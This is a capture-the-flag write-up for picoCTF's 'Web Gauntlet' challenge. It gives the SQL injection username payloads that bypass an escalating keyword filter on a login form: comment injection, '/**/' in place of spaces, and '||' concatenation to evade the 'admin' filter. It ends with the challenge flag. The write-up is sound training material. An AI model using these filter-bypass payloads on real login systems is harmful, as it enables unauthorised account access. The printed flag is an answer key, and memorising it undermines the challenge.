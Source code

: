 # Web Gauntlet ❓
Tags: Web Exploitation<br>
Point: 200<br>
AUTHOR: MADSTACKS<br>
Description:<br>
Can you beat the filters? Log in as admin<br>
http://jupiter.challenges.picoctf.org:54319/ <br>
http://jupiter.challenges.picoctf.org:54319/filter.php


## Write-up: 📝
We have to get through all 5 SQLi challenges. One link gives the form , display query after wrong credential submission or nothing if the query statement contains filtered words.
The other links show the filtered words.
## Solution: 💯
### Round 1:

Filter: `or`

Login as admin so the username=admin, and query **sqli** here.

User: `admin' --`

Pass: `123456` (arbitary string)

### Round 2:

Filter: `or and like = --`

Login as admin. Change comment out operator "--" to "/*"

User: `admin' /*`

Password: `123456` (arbitary string)

### Round 3:

Filter: `or and = like > < --`

Beware of this round also filter **spaces** so we use the payload above and replace **spaces** with `/**/`

User: `admin'/**//*`

Password: `123456` (arbitary string)

### Round 4:

Filter: `or and = like > < -- admin`

They filter the string **"admin"** if we input directly. So we need a **concatenation operator** and here we use `||`

User: `ad'||'min'/**//*`

Pass: `123456` (arbitary string)

### Round 5:

Filter: `or and = like > < -- union admin`

With **union** filtered, our payload above is not affected.

User: ad'||'min'/**//*

Pass: `123456` (arbitary string)

When you done reaching to 6/5 round. Back to **filter** file and the flag is there !

#### The Flag (for reference): ✔️
```
picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}
```

